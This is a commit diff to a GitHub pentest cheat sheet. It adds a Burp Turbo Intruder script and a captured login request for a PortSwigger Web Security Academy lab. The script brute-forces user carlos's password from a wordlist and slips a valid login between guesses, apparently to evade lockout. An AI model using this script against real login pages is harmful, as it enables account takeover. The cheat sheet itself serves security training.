

Before and after one commit to bin3xish477/cybersecurity, a Markdown page: CheatSheets/pentest-cheat-sheet.md, the part around the change. Shown at 94% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Adds example burp turbo intruder script that defines more than one parameter to substitute.

````diff
--- a/CheatSheets/pentest-cheat-sheet.md
+++ b/CheatSheets/pentest-cheat-sheet.md
@@ -1957,3 +1957,51 @@ Transfer-Encoding: chunked
 
 X
 ```
+
+### Turbo Intruder Example with Multiple Inputs
+
+#### HTTP Request
+```
+POST /login HTTP/2
+Host: 0ad000b0035c89fa83fc8c5100dd0067.web-security-academy.net
+Cookie: session=Wwc7Ls7omZps6lz1KyP6KpTGaxgRjkkH
+Content-Length: 33
+Cache-Control: max-age=0
+Sec-Ch-Ua: "Chromium";v="117", "Not;A=Brand";v="8"
+Sec-Ch-Ua-Mobile: ?0
+Sec-Ch-Ua-Platform: "macOS"
+Upgrade-Insecure-Requests: 1
+Origin: https://0ad000b0035c89fa83fc8c5100dd0067.web-security-academy.net
+Content-Type: application/x-www-form-urlencoded
+User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
+Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
+Sec-Fetch-Site: same-origin
+Sec-Fetch-Mode: navigate
+Sec-Fetch-User: ?1
+Sec-Fetch-Dest: document
+Referer: https://0ad000b0035c89fa83fc8c5100dd0067.web-security-academy.net/login
+Accept-Encoding: gzip, deflate, br
+Accept-Language: en-US,en;q=0.9
+
+username=%s&password=%s
+```
+
+#### Script
+```python
+def queueRequests(target, wordlists):
+    engine = RequestEngine(endpoint=target.endpoint,
+                           concurrentConnections=1,
+                           requestsPerConnection=5,
+                           pipeline=False
+                           )
+
+    for passwd in open('./portswigger-labs/passwords.txt'):
+        engine.queue(target.req, ['carlos', passwd.rstrip()])
+        engine.queue(target.req, ['wiener', 'peter'])
+
+
+@MatchRegex(r'.*my-account\?id=carlos\r\n')
+def handleResponse(req, interesting):
+        table.add(req)
+
+```
````
